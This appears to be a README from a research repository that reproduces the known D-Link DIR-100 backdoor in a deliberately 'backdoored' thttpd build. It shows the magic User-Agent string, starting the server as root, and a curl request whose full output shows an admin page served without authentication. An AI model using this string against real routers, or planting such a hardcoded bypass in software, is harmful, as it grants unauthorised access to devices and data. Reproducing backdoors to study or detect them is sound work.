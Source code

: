 # D-Link DIR-100 backdoor

- **Type**: hardcoded credentials
- **Affected versions**: 1.13, Revision A, 2011-09-15

## Backdoor

Setting the `"User-Agent"` header field to `"xmlset_roodkcableoj28840ybtide"` in an HTTP request
allows an attacker to bypass any authentication check.

## Triggering the backdoor

First, we need to start up the HTTP server (e.g., with the _backdoored_ variant):

```console
$ ./backdoored/thttpd -D -u root -p 8080 -d ./example-server
```

Normally, only pages found under `localhost:8080/public/*` should be accessible. However, in a
separate terminal, we can trigger the backdoor via a simple HTTP request:

```console
$ curl -v -A xmlset_roodkcableoj28840ybtide http://localhost:8080/index.html
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /index.html HTTP/1.1
> Host: localhost:8080
> User-Agent: xmlset_roodkcableoj28840ybtide
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: thttpd/2.23beta1 26may2002
< Content-Type: text/html; charset=iso-8859-1
< Date: Thu, 12 Dec 2024 08:56:40 GMT
< Last-Modified: Tue, 10 Dec 2024 13:21:22 GMT
< Accept-Ranges: bytes
< Connection: close
< Content-Length: 170
<
<!DOCTYPE html>
<html>
    <head>
        <title> Admin page </title>
    </head>

    <body>
        <p> This page is available to admins only. </p>
    </body>
</html>
* Closing connection
```

## Reference

<https://www.zdnet.com/article/d-link-routers-found-to-contain-backdoor/>
